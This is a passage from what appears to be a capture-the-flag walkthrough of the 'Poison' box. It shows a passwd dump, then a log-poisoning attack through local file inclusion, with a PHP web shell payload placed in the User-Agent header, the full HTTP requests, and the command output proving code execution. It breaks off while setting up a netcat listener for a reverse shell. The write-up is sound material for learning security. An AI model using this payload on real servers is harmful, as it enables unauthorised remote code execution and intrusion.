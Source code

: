 toor:\*:0:0:Bourne-again Superuser:/root:

&lt;SNIP&gt;

cups:\*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin

charix:\*:1001:1001:charix:/home/charix:/bin/csh

We can see from the passwd file that there is a user "charix" and using the password we discovered earlier with this, we can SSH into the machine.

This was not the only way that you can gain initial access to the box however. Another way of gaining access is to use a technique called "log poisoning" which involves putting PHP code into the Apache log file that records requests to the site. This log records the URL requested, the protocol, the status code and also the user agent which is the details of the browser client used to make the request. If we put executable PHP into the User Agent header filed in the request and make a request, the next time we use LFI on the log, that code will be executed. The code we can add to the User Agent field is:

&lt;?php system\($\_GET\['c'\]\); ?&gt;

This code takes the value in the query parameter 'c' and executes it using the 'system' command. To add the code to the User Agent field, we can use Burp to intercept the request and then change the value in the Repeater tab before sending it to the server:

GET /browse.php?file=/etc/passwd HTTP/1.1

Host: poison.htb

User-Agent: &lt;?php system\($\_GET\['c'\]\); ?&gt;

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,\*/\*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

DNT: 1

Connection: close

Upgrade-Insecure-Requests: 1

Sec-GPC: 1

We can test this now by sending a new request to view the log file and pass a command via the parameter 'c':

GET /browse.php?file=/var/log/httpd-access.log&c=id HTTP/1.1

This will return the contents of the log file and the final line will be:

10.10.14.135 - - \[\] "GET /browse.php?file=/etc/passwd HTTP/1.1" 200 1894 "-" "uid=80\(www\) gid=80\(www\) groups=80\(www\)"

It took the 'id' command and executed it to return the details of the user 'www'.

We can now execute a reverse shell. Start a Netcat listener on your machine:

┌─\[rin@parrot\]─\[~/boxes/Poison\]

└──╼ $nc -lvnp 6001
